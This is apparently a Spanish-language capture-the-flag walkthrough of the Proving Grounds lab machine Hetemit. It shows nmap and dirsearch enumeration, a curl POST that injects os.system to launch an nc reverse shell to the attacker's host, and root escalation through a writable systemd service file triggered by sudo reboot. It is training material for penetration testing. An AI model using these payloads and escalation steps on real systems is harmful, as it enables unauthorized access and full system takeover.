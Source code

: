 ```yaml
---
layout: post
title: Hetemit (Linux - Intermediate) - Proving Grounds Practice
date: 11.06.2025
categories: [Linux, Proving Grounds, Proving Grounds Practice, Walkthrough, OSCP, Tutorial]
tag: [Proving Grounds Practice, Proving Grounds, Linux, Privilege Escalation, SUDOERS, SUDO, Dirsearch, Curl, Python, Flask, Werkzeug, Werkzeug httpd 1.0.1 (Python 3.6.8), Werkzeug httpd 1.0.1, Fuzzing, SystemD, systemd, /etc/systemd/system/pythonapp.service, File Permissions, Reboot, /sbin/reboot, Intermediate]
---
```


# Resolución paso a paso de la máquina Hetemit:

## ENUMERACIÓN

### NMAP

- Realizamos el primer escaneo para ver que puertos están abiertos:

```bash
nmap -p- --open -v -n 192.168.103.117 -oG allPorts
```

![image.png](assets/img/post-img/Hetemit/image.png)

- Enumeramos los **SERVICIOS ACTIVOS** en los **PUERTOS** que hemos descubierto:

```bash
nmap -sCV -p22,139,445,631,2181,2222,8080,8081,46295 --min-rate 5000 192.168.229.98 -oN targeted
```

![image.png](assets/img/post-img/Hetemit/image%201.png)

![image.png](assets/img/post-img/Hetemit/image%202.png)

- Vemos que hay tres servidores **WEB** diferentes además de otros servicios como **FTP**, **SSH**, **SMB**… Después de un buen rato de enumeración realizando **FUZZING** en contra los tres servidores (**80**, **18000** y **5000**) descubrimos poca cosa..

- Una de las cosas que descubrimos es un panel de **LOGIN** que no nos devuelve ningún mensaje de **ERROR** cuando ponemos una credenciales invalidas, eso nos dificultaría mucho realizar **FUERZA BRUTA** ya que no podemos saber cuando hemos acertado con las credenciales y cuando no. Además también hay un **PANEL DE REGISTRO** pero no podemos registrarnos como nuevos usuarios ya que nos pide un **CÓDIGO DE INVITACIÓN** que no tenemos. También parece que si pudiéramos registrarnos podríamos aprovecharnos del campo de subida de archivos para intentar colar una **WEBSHELL** o una **REVERSE SHELL**, no obstante descartamos esta opción por ahora.

![image.png](assets/img/post-img/Hetemit/image%203.png)

![image.png](assets/img/post-img/Hetemit/image%204.png)

### DIRSEARCH

- Continuamos enumerando  y analizando el puerto **50000** vemos que corre un **SERVIDOR WEB** con PYTHON (**Werkzeug httpd 1.0.1 (Python 3.6.8)**). Realizando **FUZZING** con **DIRSEARCH** vemos que hay un directorio **VERIFY y un directorio GENERATE** que es lo mismo que encontramos cuando accedemos a la página principal por el puerto **50000:**

```bash
dirsearch  -u http://192.168.103.117:50000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x 403,400,404
```

![image.png](assets/img/post-img/Hetemit/image%205.png)

![image.png](assets/img/post-img/Hetemit/image%206.png)

![image.png](assets/img/post-img/Hetemit/image%207.png)

![image.png](assets/img/post-img/Hetemit/image%208.png)

## EXPLOTACIÓN

### Werkzeug httpd 1.0.1 (Python 3.6.8)

- Sabiendo que el servidor corre **PYTHON** la primera opción fue intentar lanzar alguna **REVERSE SHELL** directamente desde **CURL** pero no hubo manera. Sabemos que el formato en el que nos muestra la información es **JSON** o se parece mucho, incluso podemos pensar que estamos interactuando con alguna **API**. Al final realizamos una petición por **POST** con **CURL** pasándole con el parámetro **--DATA** la información, en este caso **CODE** nos hace pensar que está ejecutando código por detrás y debe ser con **PYTHON**, así que intentamos hacer una ejecución a nivel de sistema con **OS.SYSTEM** y lanzarnos la **SHELL**, y parece que funcionó:

```bash
curl -i http://192.168.243.117:50000/verify -X POST --data 'code=os.system("nc 192.168.45.154 18000 -e /bin/bash")'
```

![image.png](assets/img/post-img/Hetemit/image%209.png)

- Nos ponemos en escucha con **NC** por el puerto **18000**:

```bash
nc -lvnp 18000
```

![image.png](assets/img/post-img/Hetemit/image%2010.png)

## TRATAMIENTO DE LA TTY

- Realizamos el tratamiento de la **TTY** para poder trabajar más cómodos desde una **SHELL INTERACTIVA**:

```bash
script /dev/null -c bash

control+z

stty raw -echo; fg

reset xterm

export TERM=xterm-256color

export SHELL=bash

stty rows 52 columns 214 
```

- Una vez dentro de la máquina podemos acceder al directorio personal del usuario **CMEEKS** y leer la primera **FLAG**:

![image.png](assets/img/post-img/Hetemit/image%2011.png)

## ESCALADA DE PRIVILEGIOS

### SYSTEMD + SUDO REBOOT

- En este caso descubrimos que teníamos permisos en “**/etc/systemd/system/pythonapp.service**”.

![image.png](assets/img/post-img/Hetemit/image%2012.png)

> **SYSTEMD** es un sistema de **INICIALIZACIÓN** de **LINUX**. Es el proceso que se ejecuta con el **PID** número **1**, por lo que se arranca automáticamente cada vez que se arranque el sistema.
> 

- Al acceder al directorio y analizar el archivo descubrimos que como **GRUPO** estaba el usuario bajo el que estábamos corriendo, por lo que tenemos derechos de **ESCRITURA** sobre ese archivo. Al acceder al contenido vemos que en la variable **ExecStart**  ejecuta **FLASK** y podemos ver también en la variable **USER** que lo ejecuta bajo el usuario en el que estamos.

```bash
/etc/systemd/system/pythonapp.service
```

![image.png](assets/img/post-img/Hetemit/image%2013.png)

> Hay que tener en cuenta que para  que este método sea efectivo debemos poder reiniciar la máquina con **REBOOT**. En este caso, el usuario bajo el que nos encontramos puede ejecutar con permisos de **SUDO** el **“/SBIN/REBOOT”**.
> 

```bash
sudo -l
```

![image.png](assets/img/post-img/Hetemit/image%2014.png)

- Como tenemos privilegios de escritura sobre este archivo y sabemos que si reiniciamos la máquina con **REBOOT** se ejecutará, vamos a modificar el **SCRIPT** para que en lugar de **FLASK** nos lance una **REVERSE SHELL** y en lugar de hacerlo bajo nuestro usuario lo haga directamente como el usuario **ROOT**:
- Modificamos el **SCRIPT** para que nos lance la **REVERSE SHELL** bajo el usuario **ROOT** y modificamos también el tiempo para que sea un poco más de **15 segundos**, en este caso puse **60 segundos**:

![image.png](assets/img/post-img/Hetemit/image%2015.png)

- Reiniciamos el sistema como **SUDO** y nos ponemos en escucha con **NC** en nuestra máquina atacante por el puerto **50000**:

```bash
# Reiniciamos la máquina víctima mientras estamos en escucha con NC en nuestra máquina atacante:
sudo reboot
```

```bash
nc -lvnp 50000
```

![image.png](assets/img/post-img/Hetemit/image%2016.png)

![image.png](assets/img/post-img/Hetemit/image%2017.png)
